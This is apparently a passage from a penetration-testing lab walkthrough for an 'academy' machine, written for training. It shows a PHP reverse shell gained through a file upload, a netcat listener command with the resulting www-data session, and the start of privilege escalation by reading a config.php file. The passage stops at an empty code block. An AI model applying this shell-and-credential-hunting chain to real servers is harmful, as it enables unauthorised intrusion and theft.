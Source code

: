 ![](PNPT/PNPT-pics/academy-5.png)

![](/PNPT-pics/academy-5.png)
The fact that we can see our duck in the browser means *the webserver is executing the file*, so we know if we upload some code *it will be executed*.
### Reverse Shell
Knowing that this is an Apache server, we can assume that PHP is running the backend. Additionally, we can see that php files are being referenced in the URLs.

PHP *executes on the server*, so whatever PHP is capable of doing, we can leverage to execute a [rev shell](/cybersecurity/TTPs/exploitation/rev-shell.md). An easy PHP shell for us to use is [this one](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) from pentest monkey. Copy and paste the code, change the hostname and port values, and make sure [netcat](../../../cybersecurity/TTPs/exploitation/tools/netcat.md) is listening on the port.
```bash
nc -lvnp 44444
listening on [any] 44444 ...
connect to [10.0.2.4] from (UNKNOWN) [10.0.2.15] 51562
Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux
 16:48:43 up 11:45,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     tty1     -                Thu13   24:46m  0.04s  0.03s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
$ www-data
```
## Privilege Escalation
You've entered the machine as `www-data` who does not have a lot of permissions. However, with some snooping, we find a lot of tasty files w/i our reach in the. Specifically in `/var/www/html/includes` we find `config.php`. Let's cat that:
```bash
```